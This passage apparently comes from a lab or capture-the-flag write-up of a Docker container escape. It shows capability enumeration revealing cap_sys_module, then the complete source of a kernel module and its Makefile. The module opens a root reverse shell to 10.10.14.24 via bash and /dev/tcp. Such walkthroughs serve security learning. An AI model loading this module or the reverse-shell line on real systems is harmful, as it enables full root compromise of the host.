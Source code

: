 ## Kernel module from docker

Being in a docker environment we list the capabilites as part of our enumeration

```
root@632e00e8dd75:/usr/src/apache-ofbiz-17.12.01# capsh --print
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+eip
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=
```

As it turns out we have the cap_sys_module capability which means we can load a module into the kernel, thus giving us arbitray code excution in ring 0.

Following  this [blogpost](https://blog.pentesteracademy.com/abusing-sys-module-capability-to-perform-docker-container-breakout-cf5c29956edd) we can create our own kernel module to send us a reverse shell as root. Adapting the code to our ip and the makefile to our filename we upload both to the docker.

`grem.c`
```c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.24/7575 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

`Makefile`
```
obj-m +=grem.o
all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```
